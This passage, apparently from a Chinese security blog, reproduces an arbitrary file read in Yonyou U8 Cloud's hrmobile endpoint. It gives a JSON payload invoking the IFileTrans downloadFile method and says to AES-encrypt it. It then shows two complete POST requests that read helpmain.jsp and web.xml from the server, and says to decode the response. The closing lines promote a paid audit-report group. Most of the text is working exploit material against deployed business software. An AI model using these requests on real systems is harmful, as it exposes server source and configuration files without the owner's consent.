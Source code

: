 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfJrOyGW7Dib5DJlDGRvqt2QY7xfib9GVpbrZsfOzXUjmPQS1ehPZKPFicA/640?wx_fmt=png&from=appmsg "")  
```
{"servicenames":["nc.itf.hr.tools.IFileTrans"],"methodnames":[["downloadFile"]],"paramsClass":[[["java.lang.String"]]],"params":[[["C:\\U8CERP36\\webapps\\u8c_web\\helpmain.jsp"]]]}
```  
  
将上面的payload使用aes加密  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfJrOyGW7Dib5DJlDGRvqt2QY7xfib9GVpbrZsfOzXUjmPQS1ehPZKPFicA/640?wx_fmt=png&from=appmsg "")  
#### 三、漏洞复现  
##### 读取helpmain.jsp  
```
POST /u8cloud/hrmobile HTTP/1.1Host: 192.168.1.102:8087Content-Type: text/plainmcode:sssslanguage: zh_CNappcode: 12444pkcorp: 0001pkuser: 00014F96A911CD5C59F6A15C7E3ACD7968616A55957C0051D39786339CE1A2818670212BE1E9BEDDE8692B1211D74EAA8A79301485F94362ED1BABE47104695C7CD10D8CC66E97E8F5B0E3D25D41E8721E942E02ED95727D8B24A1352F9E9D979A8207D147A03A658DE2EE7696518F5262C8EA373A35F6AED7E0C71F9D0BBEA9B3BEB0F08C5FB05FE50D3FD4770CA7ECACABA7E8C79ACA76F922F8D7AFA0D304E0525E54332EFD559A1AF8E1381BFEA1E54B0625739B79E62049896E7C56D005DA15
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfBGOF8e0r5T8aGlCbxeDJalVm8g0m9zzvhyC8kIQbJYM73fQCRkO22Q/640?wx_fmt=png&from=appmsg "")  
  
将响应包data的数据解码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvf8ia6FhTMzibxoJm0uWQ4vmj7sabziaDmRBP2CibeQFGAl7xGVNn1awjiahw/640?wx_fmt=png&from=appmsg "")  
  
##### 读取web.xml  
```
POST /u8cloud/hrmobile HTTP/1.1Host: 192.168.1.102:8087Content-Type: text/plainmcode:sssslanguage: zh_CNappcode: 12444pkcorp: 0001pkuser: 00014F96A911CD5C59F6A15C7E3ACD7968616A55957C0051D39786339CE1A2818670212BE1E9BEDDE8692B1211D74EAA8A79301485F94362ED1BABE47104695C7CD10D8CC66E97E8F5B0E3D25D41E8721E942E02ED95727D8B24A1352F9E9D979A8207D147A03A658DE2EE7696518F5262C8EA373A35F6AED7E0C71F9D0BBEA9B3BEB0F08C5FB05FE50D3FD4770CA7ECACABA7E8C79ACA76F922F8D7AFA0D304E052E5E69639FB25727DC1226882408E47DD3810D2C5D5A4B893B74877AA48DF5890
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfOpUoNauqsmzU3IibSsibS8BmWhA29icP5lDKYLj4MIXTcJGm9NFawWAhA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvftzuQHdpygcEFg8mnDP5Jp1DaHJsch1f2I4qYtj9SyicCZJBMYQGQfGQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
                开了一个知识星球，分享一些个人审计的报告之类  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvfXn1VblL5pXfIlPN23NgZIZo5geTUW5Acb8yIjlbhacd4mS5ziazibvlA/640?wx_fmt=png&from=appmsg "")  
  
  
                                                      交流群  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/vOGOib9z4Wz5kGt5ZSGMv80xjH6HwpIvf9FjGnPpq3vUcicA2ZZKItHibyticQIuVzG2HsnSOSZic80zDFicY1tAR6ibw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
   
  
  
